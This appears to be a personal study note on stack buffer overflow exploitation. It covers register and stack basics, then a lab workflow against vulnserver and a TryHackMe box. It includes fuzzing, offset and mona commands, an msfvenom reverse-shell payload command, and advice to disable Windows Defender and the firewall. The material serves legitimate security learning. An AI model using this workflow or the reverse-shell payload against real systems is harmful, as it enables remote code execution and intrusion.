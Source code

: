 ```yaml
---
title: Buffer over flow
author: Yuchao
date: 2022-03-27 11:33:00 +0800
categories: [sec]
tags: [bof, assembly, thm]
math: true
mermaid: true
---
```


# Learn from Video

#### understand stack MOST IMPORTANT !!!

What happens when you call a procedure?
- https://www.youtube.com/watch?v=RU5vUIl1vRs

Assembly Programming Assembly Function Stack Frame Explained
- https://www.youtube.com/watch?v=vcfQVwtoyHY

---

```
{low}
ESP points to the top of the stack, at lower memory location.
{buffer}
EBP points to higher memory address, at the bottom of the stack, 
EIP holds the address of next instruction to be executed.
{high}
```

```
(one function on stack)
lower address

at ESP value (Extended Stack Pointer)
this Buffer Space
at EBP value (Extended Base Pointer)
at EIP value (Extended Instruction Pointer) / Return Address
shellcode start point

higher address
```

The process:
1. ESP hit command to get input, and the input change the stack value. EBP right, know next is EIP, EIP right. Value in stack wrong.
2. when ESP hit where EBP saves(on stack), the EBP value will change(or not). EBP wrong, EIP right.
3. when ESP hit where EIP saves(on stack), the EIP value will change.(to an address with value "JMP ESP")
4. then ESP value increase. (so its meaningfull when we jump back, to the payloads.)
5. EIP do JMP ESP (JMP back to where the ESP is now pointing.)
6. EIP do the payload commands line by line.

```

(one program in memory)
(EIP start from TEXT, when meet a function, point to STACK return address))

lower address
TEXT
DATA
HEAP
STACK
higher address
```

RET instruction:
- This will take a dword from the top of the stack at esp and load it to eip,  
- while also adding 4 to esp's value (to move it up to the next entry)

---

Another way(not JMP ESP):
- PUSH ESP, RET
- https://www.rcesecurity.com/2011/12/buffer-overflow-exploitation-jump-to-shellcode-via-push-espret/

---


Cyber Mentor BOF video and his recommendation
- https://www.youtube.com/watch?v=ncBblM920jw
- https://github.com/johnjhacking/Buffer-Overflow-Guide
- https://tcm-sec.com/buffer-overflows-made-easy/

---

Practice by vulnserver and Immunity Debugger

vulnserver
- https://thegreycorner.com/vulnserver.html
if Windows block the download, turn off Windows Defender.

Immunity Debugger
- https://www.immunityinc.com/products/debugger/

---

Cyber Mentor BOF process:
1. Spiking
2. Fuzzing
3. Finding the Offset
4. Overwriting the EIP
5. Finding Bad Characters
6. Finding the Right Module
7. Generating Shellcode
8. Root

```
nc -nv 192.168.1.90 9999
connect to vuln server
command, STATS [stat_value]
```

### 1. Spiking

generic_send_tcp
``` apt-get install spike ```
- ./generic_send_tcp host port spike_script SKIPVAR SKIPSTR
- ./generic_send_tcp 192.168.1.100 701 something.spk 0 0

### 2. Fuzzing
Send different characters try to break the program to find the offset

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337
```

### 3. Finding the Offset
find EIP at 2003

### 4. Overwriting the EIP

- EIP is 4 bytes. (32-bits)
- Shellcode = "A" * 2003 + "B" * 4
- check if B start at EIP.
- HEX 41: A.   HEX 42: B.
- EIP = "42424242" will be successful.

### 5. Finding Bad Characters

- google: "badchars"
- !mona bytearray -cpb "\x00"

### 6. Finding the Right Module


##### Find DLL without memory protection.
- search mona.py, save to /Immunity Debugger/ PyCommands.

##### Get JMP ESP shell code
``` bash
# locate nasm_shell
# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
──(root💀kali)-[/home/kali]
└─# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
Calling `DidYouMean::SPELL_CHECKERS.merge!(error_name => spell_checker)' has been deprecated. Please call `DidYouMean.correct_error(error_name, spell_checker)' instead.
nasm > JMP ESP
00000000  FFE4              jmp esp
```

##### in mona, search JMP ESP location
```
!mona modules
!mona find -s \xff\xe4" -m essfunc.dll
```
anotherway: !mona jmp -r ESP -m "essfunc.dll"
this module has no memory protections

### 7. Generating Shellcode

msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT={Port} EXITFUNC=thread -f c -a x86 -b "\00"

in python3:
put 'b' before shell code, means byte encode.

---

# THM Brain storm box

```
nmap -T4 -p- -Pn 10.10.131.179
get: 21, 3389, 9999

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

ftp 10.10.131.179
name: anonymous

ftp> ls
chatserver.exe
essfun.dll

ftp> prompt OFF
ftp> binary
for safe transfer, byte may crash

ftp> mget *

ftp> bye
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

in Windows
defender off
firewall off

\r = CR (Carriage Return) → Used as a new line character in Mac OS before X
\n = LF (Line Feed) → Used as a new line character in Unix/Mac OS X
\r\n = CR + LF → Used as a new line character in Windows


```

# THM practice
https://tryhackme.com/room/bufferoverflowprep


